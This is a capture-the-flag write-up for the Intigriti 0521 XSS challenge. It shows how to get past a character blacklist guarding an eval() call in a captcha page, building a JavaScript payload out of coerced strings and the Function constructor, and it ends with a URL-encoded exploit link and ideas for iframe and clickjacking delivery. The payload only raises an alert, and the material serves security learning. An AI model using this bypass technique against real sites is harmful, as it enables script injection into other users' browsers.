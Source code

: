 # Intigriti 0521 XSS challenge

[Link](https://challenge-0521.intigriti.io/) to the challenge

## Introduction and preconditions
This XSS challenge is about a capture that shall proof, that the user is not a robot. The task the user has to do is a simple calculation. The capture is embedded in an iframe and shows an equation like `123 + ___ = 124`. The user now has to calculate the number to fill in and submit it. If the equation is correct he is "obviously not a robot". The check of the user input is done in javascript. The aim of this challenge is to abuse the capture to create a cross-site scripting attack.

![captcha](https://api.intigriti.com/file/api/file/private_bucket_38c4ddd9-fba2-4638-be62-100306023ffc-0714f1d3-1317-4252-839a-be6726f17c24?signature=X-Amz-Algorithm%3DAWS4-HMAC-SHA256%26X-Amz-Credential%3Dintigriti%252F20210806%252Fus-east-1%252Fs3%252Faws4_request%26X-Amz-Date%3D20210806T195033Z%26X-Amz-Expires%3D3600%26X-Amz-SignedHeaders%3Dhost%26%26X-Amz-Signature%3Dfda8c595c35584c7afd8f14b11c6c489e1eb12aaed29ad51af7b874a1e129707)

So let's have a look into the calculation function, that checks the equation:

``` javascript
function calc() {
    const operation = a.innerText + b.innerText + c.value;
    if (!operation.match(/[a-df-z<>()!\\='"]/gi)) { // Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
        if (d.innerText == eval(operation)) {
            alert("🚫🤖 Congratulations, you're not a robot!");
        }
        else {
            alert("🤖 Sorry to break the news to you, but you are a robot!");
        }
        setNewNumber();
    }
    c.value = "";
}
```
So what we can see here is that an operation is build up (it contains the predefined number `a.innerText`, the operator `b.innerText` and the user provided number `c.value`). To prevent an XSS attack there is then a blacklist of characters. And if the operation doesn't contain any of these blacklisted characters, the operation is processed with an eval and compared to the predefined result `d.innerText`.

So it seems that to successfully perform the attack we will have to bypass the blacklist and abuse the `eval`-function. So the next step is to analyse which characters we have to play with:

* We can use backticks, curly brackets and the dollar sign. This allows at least some string literals
* We can use square brackets and numbers. This allows us to reference attributes of an object or index an array
* We can use the character e
* We can use operators like plus and minus
* We can use a dot to access attributes of an object
* We can use spaces

That's a lot to play with. So the first step will be to generate our payload string `alert(document.domain)`. To do that, we will take advantage of some auto-cast functionality of javascript. For example the result of `1/0` is `Infinity` and by adding some string to the result, javascript will convert that automatically into a string. So

``` javascript
1/0+`` => "Infinity"
```

We can now access single characters by just using that string as an array and index the character we want to have. But before that, we have to group it in any way. We are not allowed to use parentheses, but we have at least to other possibilities:

``` javascript
(1/0+``)[0]     // This would give as an "I", but doesn't pass the blacklist
[1/0+``][0][0]  // Would do the trick by grouping our string as element in an array. After that we can index the string itself and then the character
`${1/0}`[0]     // The usage of a string literal would also give us the string "Infinity" and we can use the square brackets to access the character we want
```

### Payload
Well, we have some possibilities to access single characters. Now we need to create strings that contain all the characters we need. We already have the string "Infinity", but we also need some characters like `r,d,o,...`. As a background: the browsers put all id and name attributes as property into the global namespace. Lucky us, there is an element with the id `e`:

``` html
<progress id="e" value="0" max="100" style="display:none"></progress>
```

Referencing it inside a string literal gives us the following string:

``` javascript
`${e}` => "[object HTMLProgressElement]"
```

Now we need also an `a` and some parentheses:

An `a` can be easily created by adding undefined to any number. That gives "NaN":

``` javascript
`${e[0]+1}` => "NaN"
```

This is a lot of characters. So let's have a look, if it's enough:

```
a `${e[0]+1}`[1]
l `${e}`[21]
e `${e}`[22]
r `${e}`[16]
t `${e}`[6]
( 
d `${e[`e`]}`[2]
o `${e}`[1]
c `${e}`[5]
u `${e[`e`]}`[0]
m `${e}`[23]
e `${e}`[22]
n `${e}`[25]
t `${e}`[6]
. `.`
d `${e[`e`]}`[2]
o `${e}`[1]
m `${e}`[23]
a `${e[0]+1}`[1]
i `${e[`e`]}`[5]
n `${e}`[25]
) 
```

Okay. We have everything but the parentheses. To get that, we have to create another string in two steps. We will need to reference any function to use that without actually calling it, so that javascript generates a string that contains parentheses:

``` javascript
// Let's look for a function
`${e["blur"]}` // gives us the string "function blur() {\n    [native code]\n}"

// Now we have to create "blur" as well
`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}` // gives us "blur"

// Putting it together:
`${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}` // gives us the string we need with only allowed characters

( `${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}`[13]
) `${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}`[14]
```

And now we have everything we need: concatenating all these snippets with a `+`, we can generate our payload `alert(document.domain)`. But what now? Throwing this expression into the `eval`-function, will just return the string. So we need a way to execute this string.

### Execution
I had to think a while to get an idea how to execute the payload. Then I remembered, that we already used a function: `e.blur`. We can also access properties with the square brackets. This allows us to access the function constructor. And looking at the documentation, this gives us a possibility to define a new function and provide a string that will be executed as function body: https://developer.mozilla.org/de/docs/Web/JavaScript/Reference/Global_Objects/Function

So we can use the function constructor in combination with tagged template-strings (https://developer.mozilla.org/de/docs/Web/JavaScript/Reference/Template_literals#tagged_template-strings)

``` javascript
// Basic example, that will pop an alert
Function`e${`alert(1)`}```
```

The first string literal sets the function body to `alert(1)` and the second calls the function.

Applying it to our payload and function would look like this:

``` javascript
e["blur"]["constructor"]`e${`alert(document.domain)`}```
```

Of course this is a simplified version, that wouldn't pass the blacklist. To bypass the blacklist we also have to create the string "constructor" like we did for the payload. I skip the process and just present the full payload:

``` javascript
e[`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[16]][`${e}`[5]+`${e}`[1]+`${e}`[25]+`${e}`[18]+`${e}`[6]+`${e}`[16]+`${e[`e`]}`[0]+`${e}`[5]+`${e}`[6]+`${e}`[1]+`${e}`[16]]`e${`${e[0]+1}`[1]+`${e}`[21]+`${e}`[22]+`${e}`[16]+`${e}`[6]+`${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}`[13]+`${e[`e`]}`[2]+`${e}`[1]+`${e}`[5]+`${e[`e`]}`[0]+`${e}`[23]+`${e}`[22]+`${e}`[25]+`${e}`[6]+`.`+`${e[`e`]}`[2]+`${e}`[1]+`${e}`[23]+`${e[0]+1}`[1]+`${e[`e`]}`[5]+`${e}`[25]+`${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}`[14]}```
```

## Exploit
For now, we can put this payload into the input field and pop the alert box. But that's just self-XSS. That means we need to find a way, to execute this in the context of another user. There are at least to different possibilities:

* After trying some parameter names on the captcha.php endpoint, I found, that I can set the value of c. This is the user-input. So one way to make this XSS work, could be to just provide the payload as parameter c and prepending a lot of spaces and a +. This would make it unvisible in the limited input-box, so that if the user enters a value, it would just be inserted between the leading spaces.
  
```
https://challenge-0521.intigriti.io/captcha.php?c=++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++%2Be[`%24{e}`[2]%2B`%24{e}`[21]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[16]][`%24{e}`[5]%2B`%24{e}`[1]%2B`%24{e}`[25]%2B`%24{e}`[18]%2B`%24{e}`[6]%2B`%24{e}`[16]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[5]%2B`%24{e}`[6]%2B`%24{e}`[1]%2B`%24{e}`[16]]`e%24{`%24{e[0]%2B1}`[1]%2B`%24{e}`[21]%2B`%24{e}`[22]%2B`%24{e}`[16]%2B`%24{e}`[6]%2B`%24{e[`%24{`%24{e}`[2]%2B`%24{e}`[21]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[13]}`]}`[13]%2B`%24{e[`e`]}`[2]%2B`%24{e}`[1]%2B`%24{e}`[5]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[23]%2B`%24{e}`[22]%2B`%24{e}`[25]%2B`%24{e}`[6]%2B`.`%2B`%24{e[`e`]}`[2]%2B`%24{e}`[1]%2B`%24{e}`[23]%2B`%24{e[0]%2B1}`[1]%2B`%24{e[`e`]}`[5]%2B`%24{e}`[25]%2B`%24{e[`%24{`%24{e}`[2]%2B`%24{e}`[21]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[13]}`]}`[14]}```
```
Now this could be inserted into a malicious website as an iframe, tricking the user to enter a number and click the button

* The second possibility also uses the fact, that the captcha.php-endpoint can be embedded as an iframe. This could be used to combine the self-XSS with a clickjacking attack.